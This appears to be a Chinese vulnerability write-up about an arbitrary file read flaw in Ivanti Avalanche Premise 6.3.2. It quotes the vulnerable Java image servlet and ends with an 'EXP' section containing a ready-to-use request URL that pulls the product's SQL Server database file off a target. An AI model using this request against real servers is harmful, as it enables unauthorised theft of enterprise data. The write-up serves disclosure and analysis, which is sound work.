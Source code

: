 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/F-N_VyITLqYUwz9q8fhZPQ)

**1、描述**

  

Ivanti Avalanche 是美国 Ivanti 公司的一套企业移动设备管理系统。该系统主要用于管理智能手机、平板电脑等设备。该漏洞存在于读取存储的头像图片位置，未进行限制格式与目录，造成了任意文件读取。

  

  

  

  

  

**2、影响范围**

  

Avalanche Premise 6.3.2 for Windows v6.3.2.3490

  

  

  

  

  

**3、关键代码**

  

```
String paramImageFilePath = request.getParameter("imageFilePath"); // vulnerable GET parameter
boolean cacheImage = true;
String parameterIcon = request.getParameter("icon");
if (paramImageFilePath != null) {
  File imageFile = new File(paramImageFilePath); // reading from user-input path
  byte[] icon = FileUtils.readFileToByteArray(imageFile);
  String queryString = request.getQueryString();
  if (icon != null && icon.length > 0) {
    handleIcon(response, icon, queryString, false); // outputting the contents
  } else {
    logger.warn(String.format("ImageServlet::missing icon for device(%s)", new Object[] {
      queryString
    }));
  }
...
private void handleIcon(HttpServletResponse response, byte[] icon, String imageSource, boolean cacheImage) throws IOException {
    response.setContentLength(icon.length);
    if (cacheImage) {
      HttpUtils.expiresOneWeek(response);
    } else {
      HttpUtils.expiresNow(response);
    }
    ImageInputStream inputStream = ImageIO.createImageInputStream(new ByteArrayInputStream(icon));
    try {
      Iterator < ImageReader > imageReaders = ImageIO.getImageReaders(inputStream);
      if (imageReaders.hasNext()) {
        ImageReader reader = imageReaders.next();
        String formatName = reader.getFormatName();
        response.setContentType(String.format("image/%s", new Object[] {
          formatName
        }));
      } else {
        logger.warn(String.format("ImageServlet::unknown image format for (%s)", new Object[] {
          imageSource
        }));
      }
    } finally {
      try {
        inputStream.close();
      } catch (IOException iOException) {}
    }
    ServletOutputStream outputStream = response.getOutputStream();
    outputStream.write(icon); // outputting the contents of the file
  }
```

  

  

  

  

  

‍从代码中可以看出文件的访问没有限制到存储位置，允许远程攻击者为在其他地方的文件提供完整的路径并检索其内容。  

  

EXP

访问路径 https://IP:8443/AvalancheWeb/image?imageFilePath = 即可，例如下载 DB，如下：

```
https://IP:8443/AvalancheWeb/image?imageFilePath=C:/Program Files/Microsoft SQL Server/MSSQL11.SQLEXPRESS/MSSQL/DATA/Avalanche.mdf
```